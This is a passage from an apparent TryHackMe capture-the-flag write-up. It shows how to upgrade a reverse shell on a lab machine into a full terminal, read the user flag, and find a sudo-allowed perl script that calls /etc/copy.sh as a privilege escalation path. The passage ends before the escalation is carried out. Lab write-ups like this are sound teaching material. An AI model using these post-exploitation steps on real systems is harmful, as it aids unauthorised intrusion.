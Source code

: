 ## Shell as www-data

### TTY Treatment 

Once we get the reverse shell, let's find a way to scale privileges, but before, we have to get a fully interactive shell, there are multiple ways but i like to do it this way: 

```bash
script /dev/null -c bash
```

Then press *Ctrl+Z* to get the process in background.

Now that you are in your machine execute the next command:

```bash
stty raw -echo;fg
```

Now write `reset xterm` and you should have a better looking shell but you still have to execute a few commands:

```bash
export TERM=xterm
export SHELL=bash
stty rows 45 columns 184
```

Make a `stty size` in your own shell to know the rows and columns.

### Privilege Escalation

Once with a stable shell and  as `www-data` we can read the `user.txt` flag at `/home/itguy/user.txt`.

```bash
www-data@THM-Chal:/$ cat /home/itguy/user.txt 
THM{***************************}
```

Now we can begin with the **privilege escalation** phase, after a bit of research i checked the **Sudoers** privileges and i found that we can run a `perl` script named  `backup.pl` as `root`.

```bash
www-data@THM-Chal:/$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

Checking what this script does, we can see that it executes a script located at `/etc/copy.sh`.

```bash
www-data@THM-Chal:/$ cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```
